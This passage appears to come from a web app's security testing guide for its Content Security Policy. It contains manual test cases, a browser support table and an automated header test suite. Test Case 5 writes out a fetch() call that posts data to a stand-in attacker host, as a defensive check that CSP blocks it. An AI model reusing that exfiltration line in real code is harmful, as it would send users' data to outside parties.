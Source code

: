 **Test Case 5: Data Exfiltration Attempt**
```javascript
// Attempt to send data to external domain
fetch('https://attacker.com/steal', {
  method: 'POST',
  body: JSON.stringify({ data: 'sensitive' })
});
```
**Expected Result:** ✅ Blocked by CSP (connect-src violation)

**Test Case 6: CSP Violation Reporting**
```javascript
// Trigger violation and verify reporting
const img = document.createElement('img');
img.src = 'https://untrusted.com/image.jpg';
document.body.appendChild(img);
```
**Expected Result:** ✅ Violation logged to `/api/csp-violations`

### Browser Compatibility Testing

| Browser | CSP Level | Supported Directives | Notes |
|---------|-----------|---------------------|-------|
| Chrome 90+ | CSP Level 3 | All directives | ✅ Full support |
| Firefox 88+ | CSP Level 3 | All directives | ✅ Full support |
| Safari 15+ | CSP Level 2 | Most directives | ⚠️ Limited `report-uri` support |
| Edge 90+ | CSP Level 3 | All directives | ✅ Full support (Chromium-based) |

### Automated Testing

```typescript
// webapp/src/__tests__/csp.test.ts
import { describe, it, expect, beforeAll } from 'vitest';

describe('Content Security Policy', () => {
  let cspHeader: string;

  beforeAll(async () => {
    const response = await fetch('/api/auth/me');
    cspHeader = response.headers.get('Content-Security-Policy') || '';
  });

  it('should include script-src directive', () => {
    expect(cspHeader).toContain("script-src 'self'");
  });

  it('should include frame-ancestors none', () => {
    expect(cspHeader).toContain("frame-ancestors 'none'");
  });

  it('should include report-uri', () => {
    expect(cspHeader).toContain('report-uri /api/csp-violations');
  });

  it('should not allow unsafe-inline in production', () => {
    if (process.env.NODE_ENV === 'production') {
      expect(cspHeader).not.toContain("'unsafe-inline'");
    }
  });
});
```

---